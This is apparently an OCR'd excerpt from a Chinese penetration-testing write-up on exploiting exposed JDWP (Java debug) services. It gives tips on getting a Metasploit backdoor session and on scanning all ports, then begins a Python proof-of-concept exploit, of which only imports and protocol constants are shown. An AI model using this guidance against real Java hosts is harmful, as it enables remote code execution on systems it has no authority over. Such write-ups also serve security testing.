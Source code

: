     　　1、不要直接反弹shell，弹不过来的。
    　　2、在使用Msf生成后门反弹的时候，往往会卡在"session 1 opend"，这个时候使用ctrl + c强制退出，然后使用session 1，选择session即可解决。
    　　3、JDWP的端口是随机选择的，所以在探测的时候要选择全端口。具体判断的时候nmap可以判断出来，
    Java Debug Wire Protocol (Reference Imp lementation)version 1.8 1.8.0 181，这个是我遇到的那个服务版本。

### poc

    import socket
    import time
    import sys
    import struct
    import urllib
    import argparse



    ################################################################################
    #
    # JDWP protocol variables
    #
    HANDSHAKE                 = "JDWP-Handshake"

    REQUEST_PACKET_TYPE       = 0x00
    REPLY_PACKET_TYPE         = 0x80

    # Command signatures
    VERSION_SIG               = (1, 1)
    CLASSESBYSIGNATURE_SIG    = (1, 2)
    ALLCLASSES_SIG            = (1, 3)
    ALLTHREADS_SIG            = (1, 4)
    IDSIZES_SIG               = (1, 7)
    CREATESTRING_SIG          = (1, 11)
    SUSPENDVM_SIG             = (1, 8)
    RESUMEVM_SIG              = (1, 9)
    SIGNATURE_SIG             = (2, 1)
    FIELDS_SIG                = (2, 4)
    METHODS_SIG               = (2, 5)
    GETVALUES_SIG             = (2, 6)
    CLASSOBJECT_SIG           = (2, 11)
    INVOKESTATICMETHOD_SIG    = (3, 3)
    REFERENCETYPE_SIG         = (9, 1)
    INVOKEMETHOD_SIG          = (9, 6)
    STRINGVALUE_SIG           = (10, 1)
    THREADNAME_SIG            = (11, 1)
    THREADSUSPEND_SIG         = (11, 2)
    THREADRESUME_SIG          = (11, 3)
    THREADSTATUS_SIG          = (11, 4)
    EVENTSET_SIG              = (15, 1)
    EVENTCLEAR_SIG            = (15, 2)
    EVENTCLEARALL_SIG         = (15, 3)
